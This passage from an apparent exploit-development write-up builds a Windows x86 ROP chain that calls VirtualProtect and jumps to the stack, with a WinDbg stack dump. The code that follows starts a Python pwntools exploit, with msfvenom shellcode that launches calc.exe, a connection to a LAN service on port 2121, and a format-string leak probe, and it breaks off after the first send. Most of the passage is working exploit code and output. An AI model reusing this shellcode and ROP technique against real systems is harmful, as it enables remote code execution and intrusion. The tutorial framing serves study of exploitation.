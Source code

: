 ```
0x4d1ed + binary_base,  # sub eax, 0x30 ; pop ebp ; ret;
0x7D695 + binary_base,  # pop ebp dummy 

0x752EC + binary_base,  # pushad
0x11394 + binary_base,  # jmp esp
```

At this point we can call the pushad instruction to put everything on the stack which then looks as follows:

```
0x752EC + binary_base,  # pushad
0x11394 + binary_base,  # jmp esp
```

```
eax=76c304c0 ebx=00000501 ecx=3fb5635a edx=00000040 esi=3fac4af9 edi=3fb274c7
eip=3fb252ec esp=0151f790 ebp=3fb2d695

0:003> dd /c1 esp
0151f790  3fb274c7 # ropnop
0151f794  3fac4af9 # jmp eax (eax=&VirtualProtect)
0151f798  3fb2d695 # pop ebp (pops 76c304c0)
0151f79c  0151f7b0 # ptr sc  ----
0151f7a0  00000501               |
0151f7a4  00000040               |
0151f7a8  3fb5635a               |
0151f7ac  76c304c0               |
0151f7b0  3fac1394 # jmp esp     |
0151f7b4  90909090  <------------
...
```

At this point we can execute our shellcode and get our calc. The full exploit can be found below:

```python
#!/usr/bin/env python3
from pwn import *

offset = 1032
size = 4000

sc =  b""
sc += b"\x90"*0x10
# msfvenom -p windows/exec CMD="calc.exe" -a x86 -f python -v sc -b '\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x20\x2f\x5C'
sc += b"\x29\xc9\x83\xe9\xcf\xe8\xff\xff\xff\xff\xc0\x5e\x81"
sc += b"\x76\x0e\xad\x9c\x2a\x96\x83\xee\xfc\xe2\xf4\x51\x74"
sc += b"\xa8\x96\xad\x9c\x4a\x1f\x48\xad\xea\xf2\x26\xcc\x1a"
sc += b"\x1d\xff\x90\xa1\xc4\xb9\x17\x58\xbe\xa2\x2b\x60\xb0"
sc += b"\x9c\x63\x86\xaa\xcc\xe0\x28\xba\x8d\x5d\xe5\x9b\xac"
sc += b"\x5b\xc8\x64\xff\xcb\xa1\xc4\xbd\x17\x60\xaa\x26\xd0"
sc += b"\x3b\xee\x4e\xd4\x2b\x47\xfc\x17\x73\xb6\xac\x4f\xa1"
sc += b"\xdf\xb5\x7f\x10\xdf\x26\xa8\xa1\x97\x7b\xad\xd5\x3a"
sc += b"\x6c\x53\x27\x97\x6a\xa4\xca\xe3\x5b\x9f\x57\x6e\x96"
sc += b"\xe1\x0e\xe3\x49\xc4\xa1\xce\x89\x9d\xf9\xf0\x26\x90"
sc += b"\x61\x1d\xf5\x80\x2b\x45\x26\x98\xa1\x97\x7d\x15\x6e"
sc += b"\xb2\x89\xc7\x71\xf7\xf4\xc6\x7b\x69\x4d\xc3\x75\xcc"
sc += b"\x26\x8e\xc1\x1b\xf0\xf6\x2b\x1b\x28\x2e\x2a\x96\xad"
sc += b"\xcc\x42\xa7\x26\xf3\xad\x69\x78\x27\xda\x23\x0f\xca"
sc += b"\x42\x30\x38\x21\xb7\x69\x78\xa0\x2c\xea\xa7\x1c\xd1"
sc += b"\x76\xd8\x99\x91\xd1\xbe\xee\x45\xfc\xad\xcf\xd5\x43"
sc += b"\xce\xfd\x46\xf5\x83\xf9\x52\xf3\xad\x9c\x2a\x96"

p = remote('192.168.153.212',2121, typ='tcp', level='debug')
p.sendline(b"LST |%p|%p|%p|%p|")
```